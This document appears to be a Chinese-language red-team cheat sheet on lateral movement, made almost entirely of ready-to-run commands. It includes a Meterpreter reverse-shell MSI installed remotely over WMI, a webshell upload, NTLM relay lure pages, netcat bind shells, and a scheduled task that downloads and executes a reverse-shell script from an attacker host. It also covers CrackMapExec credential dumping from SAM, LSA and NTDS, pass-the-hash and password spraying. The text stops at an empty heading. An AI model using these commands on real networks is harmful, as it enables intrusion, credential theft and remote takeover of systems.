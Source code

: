 ### WinRM

```bash
Enable-PSRemoting -Force

Set-Item wsman:\localhost\client\trustedhosts *
or
wmic /node:IP地址 process call create "powershell enable-psremoting -force"

Test-WSMan IP地址
```

```bash
Invoke-Command -computername 主机名 -ScriptBlock {ipconfig} -Credential (Get-Credential)
Enter-PSSession -computername 主机名 -Credential (Get-Credential)
```

### WMI

```bash
wmic /node:IP地址 /user:用户名 process call create "cmd.exe /c calc"
```

1. WMI结合MSI

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=IP地址 lport=4444 -f msi > msf.msi
```

```bash
net use \\WIN-DBR3H49FQJ3\Public; copy C:\Users\Public\msf.msi \\192.168.0.173\Public\setup.msi; wmic /node:192.168.0.173 /user:snowwolf product call install PackageLocation=C:\Users\Public\setup.msi
```

```bash
net use \\WIN-DBR3H49FQJ3\Public; copy C:\Users\Public\msf.msi \\192.168.0.173\Public\setup.msi
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","C:\Users\Public\setup.msi") -ComputerName DESKTOP-PC -Credential (Get-Credential)
```

```bash
$username = 'snowwolf';$password = '123qwe!@#';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,""," C:\Users\Public\setup.msi") -ComputerName 主机名 -Credential $credential
```

2. WMI结合New-ScheduledTaskAction

```bash
$connection = New-Cimsession -ComputerName 主机名 -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("登录用户", (ConvertTo-SecureString -String '密码' -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "snowwolf"; start-scheduledtask -CimSession $connection -TaskName "snowwolf"
```

### Web目录共享

```bash
smbclient -L \\IP地址 -U administrator
smbclient //192.168.0.109/wwwroot -U administrator
put /usr/share/webshells/aspx/cmdasp.aspx shell.aspx
```

### SmbExec

```bash
smbexec.py 域/用户@IP地址
sc create notevilserver binPath= "cmd.exe /c calc"
sc start notevilserver
```

### SMB中继

```bash
nmap -p 445 IP地址 -sS --script smb-security-mode.nse
```

smb.html:

```html
<html>
    <h1>There is not have malicious app.</h1>
    <img src="file://IP地址/payload/nothave.jpg">  //修改为攻击者主机IP地址
</html>
```

```bash
impacket-smbrelayx -h 目标主机IP地址 -c "ipconfig"
echo -e "hex"
```

### NetNLTMv2中继

```bash
impacket-ntlmrelayx -t 目标主机IP地址 -c "cmd.exe /c whoami"
```

nltm.html:

```html
<html>
    <h1>There is not have malicious app.</h1>
    <img src="file://IP地址/payload/nothave.jpg">  //修改为攻击者主机IP地址
</html>
```

### ShadowMove

[shadowmove.cpp](横向移动/shadowmove.cpp)

```bash
nc -lvp 5000
```

```bash
.\nc.exe 192.168.0.189 5000
.\shadowmove.exe PID 192.168.0.189  //PID为nc PID
```

### WinRS

```bash
Enable-PSRemoting -Force

Set-Item wsman:\localhost\client\trustedhosts *
or
wmic /node:IP地址 process call create "powershell enable-psremoting -force"

Test-WSMan IP地址
```

```bash
winrs -r:主机名 "cmd /c hostname & ipconfig"
```

### DCOM

```bash
Get-CimInstance Win32_DCOMApplication
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","目标主机IP地址"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

### PsExec

[PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
PsExec.exe -accepteula \\目标主机名 cmd.exe
```

### NC中继

```bash
sudo apt-get install netcat
```

```bash
nc -l 1234
```

```bash
nc -lvp 4444 | nc 目标主机IP 1234
```

```bash
nc 中继主机IP 4444
```

###  SSH隧道

1. 本地转发

```bash
nc -lvp 4444 -e /bin/bash
```

```bash
ssh -L5555:目标主机IP地址:4444 root@目标主机IP地址 -N -f
```

```bash
nc 127.0.0.1 5555
```

2. 远程转发

```bash
nc -lvp 4444 -e /bin/bash
```

```bash
ssh -R5555:localhost:4444 snowwolf@攻击者主机IP地址 -fN
```

```bash
nc localhost 5555
```

3. 动态转发

```bash
ssh -D8080 snowwolf@目标主机IP地址
```

THC:

[thc.org](https://www.thc.org/segfault/)

```bash
ssh -D8080 root@segfault.net
```

### At

```bash
at \\192.168.0.173 12:00 /interactive cmd.exe /c calc
```

```bash
at \\192.168.0.173
```

### Schtasks

```bash
schtasks /create /sc weekly /s 主机名或IP地址 /u 用户名 /p '密码' /tn "ReverseShellTask" /tr "powershell -NoP -NonI -W Hidden -Exec Bypass -Command `\"IEX (New-Object Net.WebClient).DownloadString('http://攻击者主机IP地址/payload/reverseshell.ps1')`\"" /st 12:00
```

### CrackMapExec

```bash
crackmapexec smb IP地址 -u 用户名 -p 密码
crackmapexec smb 192.168.0.0/24
crackmapexec smb 192.168.0.0/24 -u 'administrator' 'snowwolf' -p '123qwe!@#' '123qwe' 'snowwolf'
crackmapexec smb 192.168.0.0/24 -u username.txt -p password.txt
```

1. 凭据转储

```bash
crackmapexec smb 受控主机 -u 用户名 -p 密码 --sam
crackmapexec smb 受控主机 -u 用户名 -p 密码 --lsa
crackmapexec smb 受控主机 -u 用户名 -p 密码 --ntds drsuapi
crackmapexec smb 受控主机 -u 用户名 -p 密码 --ntds vss
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH
```

2. 执行远程目标主机命令

```bash
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH -x 'net users'
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH -x 'net users' --exec-method  [atexec/wmiexec]
crackmapexec smb 192.168.0.173 -u 'snowwolf' -H HASH --wmi "select Name from Win32_UserAccount"
```

### 传递HASH
